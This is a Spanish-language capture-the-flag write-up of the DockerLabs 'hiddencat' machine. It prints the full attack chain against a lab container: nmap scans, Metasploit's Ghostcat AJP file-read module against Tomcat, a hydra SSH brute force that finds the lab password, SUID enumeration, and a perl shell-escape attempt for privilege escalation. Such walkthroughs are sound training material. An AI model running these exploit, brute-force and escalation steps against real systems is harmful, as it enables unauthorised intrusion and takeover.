 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:33 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
```

Vemos que tenemos un ssh con dos servicios en los puertos 8080 y 8009, vamos a escanear mas profundamente:

```bash
❯ sudo nmap -p22,8009,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:35 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.92 seconds
```

Vemos varios servicios, vemos la web del puerto 8080:

![tomcathiddencat.png](assets/tomcathiddencat.png)

Un tomcat normal, hago una búsqueda de directorios con gobuster y tampoco encuentro nada.

Así que vamos a ver el servicio AJP, resulta que buscando en exploit db vemos que existe una CVE para este servicio que nos puede permitir leer archivos que no deberíamos, dejo el enlace para que podais conultarlo: [Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

También por el nombre ghostcat podemos saber que vamos bien encaminados ya que la maquina se llama hiddencat, tienen un parecido.
Abrimos metaesploit y usamos desde ahí esta vulnerabilidad:


```bash
❯ msfconsole
Metasploit tip: Writing a custom module? After editing your module, why not try 
the reload command
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

sea[msf](Jobs:0 Agents:0) >> search ajp

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat                 2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   1  exploit/linux/http/f5_bigip_tmui_rce_cve_2023_46747  2023-10-26       excellent  Yes    F5 BIG-IP TMUI AJP Smuggling RCE
   2  exploit/linux/http/netgear_unauth_exec               2016-02-25       excellent  Yes    Netgear Devices Unauthenticated Remote Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/netgear_unauth_exec

[msf](Jobs:0 Agents:0) >> use 0
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> set rhosts 172.17.0.2
rhosts => 172.17.0.2
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS    172.17.0.2        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> run
```

Aqui hemos buscado el servicio ajp y usamos el exploit file read inclusion, cuando le damos a run nos muestra este codigo:

![ghostcat.png](assets/ghostcat.png)

Vemos un mensaje curioso: 

**Welcome to Tomcat, Jerry ;)**

¡Tenemos un usuario!

Con este mensaje lo primero que intente es un ataque de fuerza bruta al ssh con el usuario jerry y el rockyou a ver si me daba un caso positivo:

```bash
❯ hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 14:45:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-27 14:45:48

```

Y justo, conseguimos las credenciales:

```ruby
	login: jerry   password: chocolate
```

vamos a conectarnos al ssh y enumerar permisos de este ususario:

```bash
❯ ssh jerry@172.17.0.2
jerry@172.17.0.2s password: 
jerry@3349dee43bec:~$ id
uid=1000(jerry) gid=1000(jerry) groups=1000(jerry)
jerry@3349dee43bec:~$ sudo -l
-bash: sudo: command not found
jerry@3349dee43bec:~$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/perl
/usr/bin/perl5.28.1
/usr/bin/python3.7
/usr/bin/python3.7m
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Despues de enumerar los permisos sudo sin éxito, enumero los suid y veo que tenemos suid de perl y python.

Intente primero con perl en un comando de gtfobins sin éxito:

```bash
jerry@3349dee43bec:~$ /usr/bin/perl -e 'exec "/bin/sh";'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_ADDRESS = "es_ES.UTF-8",
	LC_NAME = "es_ES.UTF-8",
	LC_MONETARY = "es_ES.UTF-8",
	LC_PAPER = "es_ES.UTF-8",
	LC_IDENTIFICATION = "es_ES.UTF-8",
	LC_TELEPHONE = "es_ES.UTF-8",
	LC_MEASUREMENT = "es_ES.UTF-8",
	LC_TIME = "es_ES.UTF-8",
	LC_NUMERIC = "es_ES.UTF-8",
	LANG = "es_ES.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Insecure $ENV{PATH} while running setuid at -e line 1.
jerry@3349dee43bec:~$
```

Al darme este error de variables de entorno sin configurar intente antes usar el suid de python, a ver si no me daba problemas antes de profundizar mas en perl y me dio ya el acceso root:

![rootHiddenCat.png](assets/rootHiddenCat.png)

Y obtenemos root con máximos privilegios.